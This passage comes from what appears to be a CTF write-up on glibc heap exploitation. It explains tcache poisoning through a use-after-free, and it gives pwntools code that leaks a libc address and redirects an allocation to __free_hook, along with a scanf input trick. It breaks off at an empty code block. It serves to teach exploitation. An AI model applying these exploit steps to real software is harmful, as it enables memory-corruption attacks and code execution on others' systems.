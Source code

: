 ```
tcachebin[0x20]: a -> 0x0
```
When you check the source code, the code responsible for removing chunk from tcachebin is a function named `tcache_get`.
```c
/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  e->key = NULL;
  return (void *) e;
}
```
Here `tc_idx` is index of the tcachebin/list from which chunk is to be removed.<br>
Notice that there are no checks on the pointer to be returned, whether it points to a valid chunk or not. This is the base of tcache poisoning attack, that they are no checks on the pointer unlike fastbin, smallbin or largebin.<br>
So, if we could somehow overwrite the `next` pointer value, we can get an arbitrary pointer.

Because of the UAF, we can change `next` pointer. I overwrite `next` pointer of `tcache[-1]` (remember LIFO) by changing its `name` to address of `__free_hook` using `manage_items` function. This will return us `__free_hook` through `tcachebin[0x90]`.
```py
a = sell_item('stdnoerr')
tcache = [sell_item(str(i)*8) for i in range(7)]

for i in tcache: buy_item(i)
buy_item(a)

print_items()
p.recvuntil('Name: ')
libc_leak = u64(p.recvline(False).ljust(8, b'\x00'))
libc.address = libc_leak - 0x1ebbe0 # main_arena + 96

manage_item(tcache[-1], p64(libc.sym.__free_hook))
```
Weirdly, tcachebins end up being the following:
```
Tcachebins[idx=1, size=0x30] count=7  ←  Chunk(addr=0x556d29f1f7e0, size=0x30, flags=PREV_INUSE)  ←  [Corrupted chunk at 0x7b]
Tcachebins[idx=7, size=0x90] count=7  ←  Chunk(addr=0x556d29f1f810, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x7f93dfbf7b28, size=0x0, flags=) <--- __free_hook
```
If you notice, `tcachebin[0x30]` contains an invalid `next` pointer. This will make the programm `SEGFAULT`, because on second allocation it will return `0x7b` (123) and the program will try to write values there, but since it is an invalid pointer, the program will `SEGFAULT`. This value is the one we used for `new_price` in `manage_items` function.<br>
To prevent this from happening, you can use a valid pointer as `new_price` (libc free area, some heap area etc). But, since the program reads `price` using `scanf`, you can use a small `scanf` trick to preserve the original value.<br>
The trick is, whenever `scanf` is instructed to read a number (`int`/`float`/`double` etc) if it receives non-numeric input, it doesn't alter the destination value, so the destination value remains same. The responsible code for this is a little complex, but the gist is `scanf` calls `strtod`/`strtold`/`stdtof` to convert the recevied input to the actual value (`double`/`long double`/`float`). When these function receive an input which doesn't correspond to an actual value, they write the same input to output buffer and `scanf` checks if it's **not** the case, only then the value is written.<br>
This means giving a simple string like `stdnoerr` will not change the destination value. But it is better to use a single character instead of a string. A small snippet where the check is performed is below:
```c
```
